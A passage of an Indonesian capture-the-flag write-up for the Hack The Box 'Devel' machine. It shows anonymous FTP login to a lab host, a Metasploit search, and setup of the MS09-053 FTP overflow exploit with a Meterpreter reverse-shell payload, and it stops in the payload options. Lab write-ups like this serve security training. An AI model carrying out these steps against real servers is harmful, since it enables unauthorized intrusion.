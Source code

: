 ## 21 - FTP

dapat dilihat dari hasil scanning nmap, target tersebut memiliki port 21/ftp microsoft ftpd. langkah awal yang akan saya lakukan adalah melakukan pengecheckan terhadap anonymous login

```bash
┌──(punktester㉿kali)-[~/…/ctf/htb/easy/devel]
└─$ ftp 10.129.136.185   
Connected to 10.129.136.185.
220 Microsoft FTP Service
Name (10.129.136.185:punktester): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
229 Entering Extended Passive Mode (|||49157|)
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> 
```

disini saya berhasil untuk login pada ftp dengan akun anonymous. selanjutnya saya mencoba untuk mencari exploit dari microsoft ftpd pada metasploit

```bash
msf6 > search Microsoft ftpd

Matching Modules
================

   #  Name                                          Disclosure Date  Rank    Check  Description
   -  ----                                          ---------------  ----    -----  -----------
   0  exploit/windows/ftp/ms09_053_ftpd_nlst        2009-08-31       great   No     MS09-053 Microsoft IIS FTP Server NLST Response Overflow
   1  auxiliary/dos/windows/ftp/iis75_ftpd_iac_bof  2010-12-21       normal  No     Microsoft IIS FTP Server Encoded Response Overflow Trigger


Interact with a module by name or index. For example info 1, use 1 or use auxiliary/dos/windows/ftp/iis75_ftpd_iac_bof
```

terdapat 1 module exploit yaitu **exploit/windows/ftp/ms09_053_ftpd_nlst**  module ini menyerang stack buffer overflow pada microsoft iis ftp service 

```bash
msf6 exploit(windows/ftp/ms09_053_ftpd_nlst) > options

Module options (exploit/windows/ftp/ms09_053_ftpd_nlst):

   Name     Current Setting      Required  Description
   ----     ---------------      --------  -----------
   FTPPASS  mozilla@example.com  no        The password for the specified username
   FTPUSER  anonymous            no        The username to authenticate as
   RHOSTS   10.129.136.185       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    21                   yes       The target port (TCP)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
```